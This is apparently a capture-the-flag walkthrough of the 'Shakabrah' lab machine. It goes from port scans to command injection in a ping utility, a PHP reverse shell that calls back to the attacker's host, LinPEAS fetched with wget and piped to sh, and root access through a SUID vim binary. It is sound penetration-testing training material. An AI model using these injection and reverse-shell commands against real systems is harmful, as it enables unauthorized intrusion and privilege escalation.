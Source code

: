 # Shakabrah (rough notes)

## Access

Initial port scan

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-29-Shakabrah]
└─$ nmap -v -Pn -p- -T4 shakabrah
...

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Port scan with service version fingerprinting

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-29-Shakabrah]
└─$ nmap -v -p 22,80 -T4 -A shakabrah
...

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:b9:6d:35:0b:c5:c4:5a:86:e0:26:10:95:48:77:82 (RSA)
|   256 a8:0f:a7:73:83:02:c1:97:8c:25:ba:fe:a5:11:5f:74 (ECDSA)
|_  256 fc:e9:9f:fe:f9:e0:4d:2d:76:ee:ca:da:af:c3:39:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Checking out the webserver in the browser we find a ping tester utility

![](./assets/conn-tester.png)

I try figuring out how to abuse this thing... I give flags to the ping command and hope to see them take effect


```
8.8.8.8 -c 2
```

Indeed only sent 2 packets, so we can probably just inject arbitrary commands here...

I try

```
8.8.8.8 -c 2; ls -la
```

![](./assets/cmd-injection.png)

Success... so we can inject arbitrary commands here. I'll try setting up a reverse shell...

I try a few reverse shells before I get one to work. I noticed there was a php file in the filesystem (see picture above). So I went with a PHP reverse shell:

```
8.8.8.8 -c 2; php -r '$sock=fsockopen("192.168.45.201",80);exec("sh <&3 >&3 2>&3");'
```

Caught the shell in Kali:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-29-Shakabrah/assets]
└─$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.201] from (UNKNOWN) [192.168.215.86] 47342
whoami
www-data
```

Found the first flag in `dylan`'s home directory:

```
www-data@shakabrah:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root  root  4096 Aug 25  2020 .
drwxr-xr-x 23 root  root  4096 Aug 25  2020 ..
drwxr-xr-x  3 dylan dylan 4096 Aug 25  2020 dylan
www-data@shakabrah:/home$ cat dylan/local.txt
cat dylan/local.txt
e4e25176849c6150775f3de2715009ad
```

## Privilege Escalation

Time for LinPEAS!

I couldn't talk to the internet from the victim host, so I downloaded the LinPEAS script to my Kali machine and served it over HTTP for the victim host to download with:

```
wget -O- --timeout 3 --tries 1 http://192.168.45.201/linpeas.sh | sh
```

The most relevant LinPEAS findings are:

- An unknown SUID binary:

```
-rwsr-xr-x 1 root root 2.6M Mar 18  2020 /usr/bin/vim.basic (Unknown SUID binary!)
```

Seems to be a slimmed down version of vim. Looking at how to use `vim` to escalate privileges in [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#suid) we find a few ways to get a shell.

We find our proof in the root directory:

```
/usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
Vim: Warning: Output is not to a terminal
Vim: Warning: Input is not from a terminal



whoami
root
cd /root
ls -la
total 20
drwx------  2 root root 4096 Mar 29 14:48 .
drwxr-xr-x 23 root root 4096 Aug 25  2020 ..
lrwxrwxrwx  1 root root    9 Aug 25  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root   33 Mar 29 14:48 proof.txt
cat proof.txt
d51aa44565ed8c7d12353a94c7cf277a
```

> Note: when I ran the vim command it threw a lot of errors of the form `E79: Cannot expand wildcards`, but I just pressed Enter a bunch of times and noticed I was root.